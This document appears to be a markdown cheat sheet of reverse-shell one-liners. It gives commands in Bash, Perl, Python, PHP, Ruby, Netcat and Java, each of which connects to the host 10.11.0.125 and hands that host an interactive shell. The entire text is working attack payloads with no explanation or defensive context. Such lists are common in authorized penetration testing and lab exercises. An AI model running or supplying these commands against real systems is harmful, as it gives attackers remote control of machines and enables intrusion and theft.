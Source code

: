### Bash 

> bash -i >& /dev/tcp/10.11.0.125/1234 0>&1

### Perl
> perl -e 'use Socket;$i="10.11.0.125";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

### Python
> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.0.125",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

### PHP
> php -r '$sock=fsockopen("10.11.0.125",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

### Ruby
ruby -rsocket -e'f=TCPSocket.open("10.11.0.125",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

### Netcat
> nc -e /bin/sh 10.11.0.125 1234

or if you have a different version installed:

> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.125 1234 >/tmp/f

### Java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.11.0.125/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
